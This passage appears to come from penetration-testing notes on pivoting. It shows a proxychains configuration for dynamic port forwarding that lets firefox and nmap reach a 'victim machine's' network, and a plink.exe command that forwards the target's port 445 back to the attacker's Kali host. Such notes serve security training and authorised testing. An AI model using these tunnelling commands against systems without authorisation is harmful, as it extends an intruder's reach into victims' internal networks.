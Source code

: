 With Dynamic Port Forwarding We can access/browse any ip range of the victim machine. We just need to configure proxychains.conf as follows:
```
nano /etc/proxychains.conf
...
.
.
....
socks4  127.0.0.1 8080
```
Now we can use any application through proxychains… such as:
```
proxychains firefox
proxychains nmap -sT -Pn -p139,445 $ip
```

### Port Forwarding using Plink.exe 
Remote Port Forwarding using Plink. Needed When we don’t have access to specific port on target box!
```
plink.exe -ssh -l kali_user -pw kali_password -R $kali_ip:445:127.0.0.1:445 $kali_ip
```

